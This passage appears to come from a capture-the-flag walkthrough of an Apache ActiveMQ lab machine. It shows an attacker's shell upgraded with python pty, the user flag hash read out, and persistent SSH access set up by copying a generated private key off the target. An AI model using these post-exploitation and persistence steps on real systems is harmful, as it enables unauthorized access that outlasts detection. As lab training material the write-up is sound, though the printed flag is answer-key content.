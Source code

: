 let's upgrade our shell:

```
which python3
/usr/bin/python3

python3 -c 'import pty; pty.spawn("/bin/bash")'
activemq@broker:/opt/apache-activemq-5.15.15/bin$
```

## user flag

the user flag is in the activemq user's home:

```
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cd ~
cd ~

activemq@broker:/home/activemq$ ls
ls
user.txt

activemq@broker:/home/activemq$ cat user.txt
cat user.txt
960fe798b636708a5849989b65faaab2
```

## persistent foothold

in order to take a break, i decided to play around with establishing a persistent foothold by creating a valid ssh keypair on the target machine and then copying the private key over to my machine. it worked well and allows me to login in via

```
$ ls -la .ssh
total 20
drwxr-xr-x  2 kali kali 4096 Jan  2 15:25 .
drwx------ 20 kali kali 4096 Jan  2 15:09 ..
-rw-------  1 kali kali 2602 Jan  2 15:22 broker
-rw-------  1 kali kali  978 Jan  2 15:23 known_hosts

$ ssh -i broker activemq@10.10.11.243
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jan  2 08:26:12 PM UTC 2024

  System load:           0.0615234375
  Usage of /:            71.2% of 4.63GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             159
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.243
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ca3

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.
```
